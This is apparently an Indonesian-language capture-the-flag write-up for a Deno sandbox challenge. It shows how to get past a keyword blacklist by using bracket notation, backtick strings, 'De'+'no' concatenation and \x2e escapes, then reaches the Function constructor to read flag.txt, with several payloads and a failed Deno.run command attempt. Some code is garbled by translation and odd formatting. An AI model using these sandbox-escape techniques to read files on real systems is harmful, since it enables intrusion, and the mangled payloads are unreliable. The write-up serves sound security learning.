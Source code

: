 # DENO2

Alat

- Terminal
- Node
- Sublime text

Untuk menyelesaikan deno2 kita harus mencari tahu cara untuk mem-bypass const BLACK_LIST. Untungnya kita diberikan dua petunjuk yang memberitahu kita bahwa ada cara lain untuk memanggil fungsi/atribut/metode dari objek selain menggunakan titik, yaitu dengan menggunakan metode 

```jsx
object[`function`]
```

Disini kita sudah tahu cara mem-bypass pemanggilan fungsi tapi bagaimana dengan pemanggilan deno?.

Disitulah Deno masuk daftar hitam, dengan sedikit tekad dan pengetahuan yang minim saya bertanya kepada Mr. Google. Setelah berselancar di Google saya menemukan sebuah artikel yang menyatakan bahwa kita dapat memanggil objek dengan "ini" terlebih dahulu, misalnya this.deno.run().

kemudian dengan petunjuk kedua yang diberikan, saya menggunakan teknik fungsi anonim agar lebih mudah (menurut saya). Fungsi anonim bisa dibuat dengan menulis 

```jsx
({})["constructor"]["constructor"](https://www.notion.so/%22code%22)().
```

() pada akhir code untuk memanggil fungsi anonim.

Dalam tantangan ini, kita tidak bisa menggunakan "" dan '', jadi kita menggantinya dengan ` (backtick). Untuk payload pertama saya buat seperti ini :

```jsx
({})[konstruktor][konstruktor](ini[\\De\ + \\no\][\\run\]({cmd: [\\ls\]}) )()
```

code di atask ternyata tidak berhasil, karena saya yakin ini harus berhasil. Saya mencoba kode di deno1 dan berhasil. Hmmm kemudian saya cek file dockernya ternyata deno.run tidak boleh, jadi saya ganti dengan membaca langsung filenya seperti yang saya tulis di deno1 yaitu dengan deno.readfilesync(). kodenya akan seperti ini:

```jsx

({})[constructor][constructor](decoder = new TextDecoder(\\utf-8\);data = this[\\De\+\\no\][\\readFileSync\](\\flag\x2etxt\);return decoder[\\decode\](data);)()
```

catatan:\x2e untuk menggantikan . (dot)

Code di atas dapat berhasil. karena menurut saya jawaban saya terlalu panjang, saya bertanya kepada penulis, yang saya tanyakan seperti ini "apakah ada cara lain untuk mendapatkan flag", dan ternyata ada cara lain yaitu dengan menggunakan

```jsx
[][constructor][constructor](return De+no\\x2ereadTextFileSync(\\flag\x2etxt\))()
```

dan

```jsx
[][constructor][constructor](return fetch(\\file:///ctf/flag\x2etxt\)\\x2ethen((a)=>a\\x2etext()\\x2ethen((b )=>konsol\\x2elog(b))))()
```

terima kasih kepada mas Dimas yang telah membantu saya.

### Referensi yang mungkin bisa membantu

- 

[https://www.youtube.com/watch?v=pzh6--](https://www.youtube.com/watch?v=pzh6--)

- 

[Escaping nodejs vm](http://Gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af)
